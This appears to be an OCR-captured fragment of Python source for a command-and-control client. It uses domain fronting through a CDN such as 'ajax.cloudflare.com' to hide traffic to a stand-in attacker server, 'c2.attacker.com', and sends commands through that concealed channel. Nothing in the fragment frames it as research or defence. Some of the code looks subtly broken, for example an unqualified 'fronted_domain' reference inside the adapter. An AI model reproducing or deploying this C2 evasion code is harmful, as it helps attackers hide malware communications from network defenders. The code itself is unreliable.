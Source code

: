 ```python
    
    def __init__(self, fronted_domain: str, real_c2: str):
        """
        Args:
            fronted_domain: Legitimate CDN domain (e.g., "ajax.cloudflare.com")
            real_c2: Real C2 domain behind CDN
        """
        self.fronted_domain = fronted_domain
        self.real_c2 = real_c2
        self.session = None
    
    def create_fronted_session(self) -> requests.Session:
        """
        Create HTTP session with domain fronting
        """
        import requests
        
        session = requests.Session()
        
        # Custom adapter to modify headers
        class FrontingAdapter(requests.adapters.HTTPAdapter):
            def __init__(self, real_host, *args, **kwargs):
                self.real_host = real_host
                super().__init__(*args, **kwargs)
            
            def add_headers(self, request, **kwargs):
                # Connect to CDN
                request.url = request.url.replace(self.real_host, fronted_domain)
                # But route to real C2 via Host header
                request.headers['Host'] = self.real_host
                return request
        
        session.mount('https://', FrontingAdapter(self.real_c2))
        
        return session
    
    def send_command(self, command: Dict) -> Dict:
        """
        Send command via domain fronting
        Network sees: HTTPS to ajax.cloudflare.com
        Actually goes to: c2.attacker.com
        """
        if not self.session:
            self.session = self.create_fronted_session()
        
        # Make request
        # Network: GET https://ajax.cloudflare.com/api/command
        # Header: Host: c2.attacker.com
        # Routes to: https://c2.attacker.com/api/command
        
        response = self.session.post(
            f"https://{self.fronted_domain}/api/command",
            json=command,
            headers={'Host': self.real_c2}
        )
        
        return response.json()
```
